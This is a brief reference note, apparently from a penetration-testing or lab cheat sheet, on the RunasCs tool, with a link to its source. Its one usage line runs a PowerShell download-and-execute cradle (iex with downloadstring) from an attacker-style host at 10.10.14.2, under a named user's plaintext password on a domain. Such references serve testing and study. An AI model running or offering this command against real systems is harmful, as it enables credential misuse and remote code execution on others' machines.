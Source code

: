 # Name
RunasCs

## Usage
```
.\RunasCs.exe jamie P@ssw0rd123! "powershell.exe -c iex (new-object net.webclient).downloadstring('http://10.10.14.2/runall.ps1')" -d zsm.local -l 8
```

## Source
https://github.com/antonioCoco/RunasCs
